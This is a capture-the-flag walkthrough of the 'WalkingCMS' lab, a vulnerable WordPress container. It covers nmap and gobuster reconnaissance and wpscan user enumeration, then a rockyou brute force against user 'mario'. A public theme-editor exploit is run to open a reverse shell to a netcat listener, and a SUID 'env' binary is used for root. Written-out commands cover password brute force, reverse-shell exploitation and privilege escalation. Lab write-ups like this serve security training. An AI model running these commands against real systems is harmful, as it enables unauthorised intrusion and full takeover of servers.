**1. Information**

The WalkingCMS machine is a vulnerable WordPress instance.  
We will use `nmap` to scan the given IP, `gobuster` to find hidden directories, `wpscan` to perform user and password enumeration, abuse misconfigured WordPress themes, obtain a reverse shell, and abuse SUID to escalate privileges.

**2. Reconnaissance with nmap**

Once the machine's Docker container is deployed, we proceed to perform reconnaissance with `nmap`. But first, we ping the target to verify connectivity. After the ping succeeds, we run the nmap scan:

```bash
sudo nmap -sS -sV -Pn -T4 -p- --open -oA trust 172.17.0.2
```


As we can see, port 80 is open and running Apache, indicating a web page.

**3. Web Fingerprinting (Web Recon)**

We start web reconnaissance by opening the page in our browser to see what we find:


There is nothing interesting on the main page, but we should consider that other sites may be hosted under `/var/www/html/`, so we need to perform directory fuzzing.

```bash
gobuster dir -u 172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,sh,py,txt,bak,zip
```



This finds a WordPress directory, so we run a second fuzz specifically against it:

```bash
gobuster dir -u 172.17.0.2/wordpress -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,sh,py,txt,bak,zip
```


The first pages we will review include `/wordpress/wp-login.php`, which is of interest:


**4. Audit with WPScan**

To audit a WordPress site we use `wpscan`, but first we must use the API, since WPScan needs an API token to enumerate vulnerabilities (vuln DB). For this, we go to the tool website: https://wpscan.com, create an account, copy the API token, export it and optionally persist it.

Having done that, we proceed to run the wpscan scan:

```bash
echo 'export WPSCAN_API_TOKEN'
```

```bash
wpscan --url http://172.17.0.2/wordpress/ --enumerate u
```


The scan finds a user:


Now we perform a brute-force attack with wpscan against the user `mario`:

```bash
wpscan --url http://172.17.0.2/wordpress/ --passwords /usr/share/wordlists/rockyou.txt --usernames mario
```




We can also enumerate plugins and themes to find one with a vulnerability:

```bash
wpscan --url http://172.17.0.2/wordpress/ --enumerate ap,at
```


**5. Reverse shell and privilege escalation**

To perform the exploitation, we log into the admin panel and install the `twentyfifteen` theme. Then we download this exploit:  
https://github.com/nisforrnicholas/WordPress-Theme-Editor-Exploit/tree/main

We set up a listener on our attacker machine and in another tab run the exploit:

```bash
python3 wpte_exploit.py http://172.17.0.2/ mario love twentyfifteen 172.17.0.1 4444 linux
```



After running the exploit we obtain a reverse shell:

```bash
nc -lvnp 4444
```

```bash
python3 -c 'import pty,os; pty.spawn("/bin/bash")' 2>/dev/null || true
export TERM=xterm; stty rows 40 columns 120
```


NOTE: I executed a series of commands to stabilize the TTY.

```bash
find / -perm -4000 -type f 2>/dev/null
```

We begin manual enumeration.


This command searches for all files that have the SUID bit (permission `4000`) and are regular files (`-type f`). SUID causes the executed binary to run with the file owner’s identity (usually root) instead of the invoking user.

With this search we can go to https://gtfobins.github.io/ and look for the `env` binary; using this binary we can escalate privileges.


Now we execute the absolute path and escalate privileges.


This completes the WalkingCMS machine.
